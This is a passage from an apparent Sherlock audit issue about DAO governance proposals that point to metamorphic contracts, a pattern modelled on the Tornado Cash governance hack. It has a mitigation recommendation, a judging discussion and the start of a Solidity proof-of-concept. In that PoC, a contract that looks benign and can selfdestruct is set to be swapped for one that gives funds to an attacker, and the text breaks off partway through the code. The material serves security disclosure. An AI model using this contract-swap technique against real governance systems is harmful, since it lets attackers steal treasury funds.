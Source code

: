 Manual Review


## Recommendation

Include the target address' [code](https://github.com/coinspect/learn-evm-attacks/tree/master/test/Business_Logic/TornadoCash_Governance#possible-mitigations) in what's hashed



## Discussion

**sherlock-admin2**

1 comment(s) were left on this issue during the judging contest.

**haxatron** commented:
> Invalid. Interesting, but this is not limited to metamorphic contracts but proxy contracts too and is therefore an inherent risk in all DAOs. In addition the Tornado hack involved delegatecall whereas Bravo implementation just makes an external call.



**0xLienid**

near impossible to fix the proxy contract case, but we will add a codehash check anyways to at least reduce the surface area

**nevillehuang**

Request poc

**sherlock-admin**

PoC requested from @IllIllI000

Requests remaining: **6**

**IllIllI000**

Please read through steps 1-5:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.15;

// code modified from https://github.com/pcaversaccio/tornado-cash-exploit/blob/main/test/MetamorphicContract.t.sol

import {Test} from "forge-std/Test.sol";
import {console} from "forge-std/console.sol";

contract DistributeFundsEqually {

    function distributeFunds(address alice, uint256 aAmount, address bob, uint256 bAmount, address carol, uint256 cAmount) public payable {
        console.log("Sending funds to alice, bob, carol");
    }
    
    function cleanUp() public {
        selfdestruct(payable(address(0)));
    }
}

contract GiveAllFundsToAttacker {
    address private attacker;

    constructor(address a_) {
        attacker = a_;
    }
    
```